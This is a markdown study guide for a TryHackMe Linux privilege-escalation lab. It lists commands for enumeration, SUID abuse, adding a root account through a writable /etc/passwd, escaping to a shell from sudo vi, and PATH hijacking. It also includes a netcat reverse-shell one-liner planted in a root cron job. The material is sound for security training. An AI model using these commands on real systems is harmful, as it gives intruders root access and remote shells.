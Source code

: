 # PrivEsc

* [Room - PrivEsc](https://tryhackme.com/room/commonlinuxprivesc)

## Introduction

* Horizontal Privilege Escalation

* Vertical Privilege Escalation

---

## Enumeration

* `LinEnum` is a simple bash script that performs common commands related to privilege escalation

    * [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

    * `python -m SimpleHTTPServer 8000`

    * `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`

    * `curl -sLO https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`

* `LinEnum Output`

    * __Kernel__ - Are there any `CVE`s for this kernel version.

    * __Files__ -  The `world-writable` files are shown below.

    * __SUID Files__ - `SUID` (Set owner User ID up on execution) is a file permission that allows the file to run with permissions of whoever the owner is.

    * __Crontab__ - `Schedule commands` at a specific time. What user does the command execute as? Does it read command information from a file?

* `hostname`

* `cat /etc/passwd | grep -E '^user[0-9].' | wc -l`

* `cat /etc/shells`

* `crontab -l`
* `cat /etc/crontab`

> `less -R` for `raw encode content` (e.g. colourize the output instead of showing the escape codes).

---

## Exploiting SUID/GUID Files

1. The first step in Linux privilege escalation exploitation is to check for files with the `SUID/GUID` bit set. 

    * This means that the file or files can be run with the permissions of the file(s) owner/group.

* __Permission Flags__

    * __Normal Bits__

        * Standard Permissions are `3 bit` per `owner`, `group` and `other`
            
            * _execute_ : `1`
            * _write_ : `2`
            * _read_ : `4`

        * Maximum of all bits set is `7`.
    
    * __Special Bits__

        * `SUID` : When bit `4` is set. `rws-rwx-rwx`
        * `SGID` : When bit `2` is set. `rwx-rws-rwx`

* Look for the `s` bit being set: `rws-rwx-rwx` / `rwx-rws-rwx`

    * `find / -perm -u=s -type f 2>/dev/null`

        * `-perm` - searches for files with specific permissions
        * `-u=s` searches for user `set user id` bit.

    * `/home/user3/shell` could be exploited.

---

## Exploiting writeable /etc/passwd

* User is member of `root` group and `/etc/passwd` has `write` permissions.

* `/etc/passwd` file stores essential information for login.

* `/etc/passwd` file __should__ have general `read` permission.

* `/etc/passwd` file __should__ have root `write` permission.

* `/etc/passwd` format

    * `test:x:0:0:root:/root:/bin/bash`
    * `username:password:uid:gid:user-info-txt:home-dir:shell-path`

* __Create a new root user entry with a known password__

    > `openssl passwd -1 -salt [salt] [password]`
    * `openssl passwd -1 -salt new 123` (`$1$new$p7ptkEKU1HnaHpRtzNizS1`)
    * `echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd`

---

## Exploiting `sudo`

* Use `sudo -l` to list what commands you're able to use as a super user on that account. This might be used to compromise the system.

* `sudo vi` - Open `vi` with `sudo`.
* `:`+ `!sh` - Use  `vi` to open a new shell.

---

## Exploiting `crontab`

* The Cron daemon is a long-running process that executes commands at specific dates and times. 
* You can use this to schedule activities, either as one-time events or as recurring tasks. 
* You can create a crontab file containing commands and instructions for the Cron daemon to execute.

* `cat /etc/crontab`

* __Format of a Cronjob__

    ```bash
    # m  h  dom mon dow user	command
    */5  *  *   *   *   root    /home/user4/Desktop/autoscript.sh
    17   *	*   *   *	root    cd / && run-parts --report /etc/cron.hourly
    25   6	*   *   *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47   6	*   *   7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52   6	1   *   *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    ```
* `msfvenom`

    * [msfvenom - Offensive Security](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
    * [msfvenom - GitHub](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)
    * [msfvenom -Cheat Sheet](https://nitesculucian.github.io/2018/07/24/msfvenom-cheat-sheet/)

    * `msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R`

         * `mkfifo /tmp/ekvsqgg; nc 10.10.250.198 8888 0</tmp/ekvsqgg | /bin/sh >/tmp/ekvsqgg 2>&1; rm /tmp/ekvsqgg`


1. Set up attacking machine listener

    * `nc -lvp 8888`

2. Add reverse-shell exploit to vulnerable cron job.

    * `echo mkfifo /tmp/ekvsqgg; nc 10.10.250.198 8888 0</tmp/ekvsqgg | /bin/sh >/tmp/ekvsqgg 2>&1; rm /tmp/ekvsqgg > vuln.sh`

---

## Exploiting $PATH

1. We have a `SUID` binary. On execution is executing a command e.g. `ps`.

2. Modify the `$PATH` variable to use different command named `ps` that we control.

* `cd tmp`
* `echo "/bin/bash" > ls`
* `chmod +x ls`
* `export PATH=/tmp:$PATH`

---

## References

* https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
* https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html
* https://payatu.com/guide-linux-privilege-escalation

* [PrivEsc Playground - Try Hack Me](https://tryhackme.com/room/privescplayground)




